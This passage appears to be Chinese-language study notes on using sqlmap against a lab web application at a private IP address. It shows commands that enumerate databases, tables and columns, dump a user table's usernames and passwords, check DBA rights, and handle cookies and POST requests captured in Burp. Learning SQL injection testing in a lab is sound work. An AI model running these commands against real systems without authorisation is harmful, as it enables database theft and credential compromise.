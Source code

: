 **3、查看当前使用的数据库**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --current-db
```

**4、发现使用的是Learn数据库，接下来对数据库进行查询**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" -D "learn" --tables
```

**5、查出所有表后，对user表的列名进行查询**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" -D "learn" -T "user" --columns
```

**6、users表中的列名已经知道了，可以直接查出所有的数据**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" -D "learn" -T "user" -C "userid,username,password" --dump
```

> 完成拖库的操作后，可以在输出中查看到表的数据，也可以直接根据提示信息进入相应文件查看内容

**7、直接指定数据库类型，节省时间**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql
```

**8、判断是否为DBA**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql --is-dba
```

### 二、POST和Cookie

**1、如果某个注入点需要先登录，那么可以手工登录后，使用相同的Cookie进行处理**

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --dbs
```

**2、如果注入点不是GET，而是POST请求，则要添加POST正文**

Ⅰ、先将POST请求在Burp中进行捕获，将请求内容保存到文件中

![image-20220724111927075](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207241119151.png)

Ⅱ、通常POST请求正文内容如下

```
POST /security/read.php?id=1 HTTP/1.1
Host: 192.168.72.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.148/security/read.php?id=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://192.168.72.148
Connection: close
Cookie: PHPSESSID=srb89pb85tbjmbokmao4c7uih4
Upgrade-Insecure-Requests: 1

```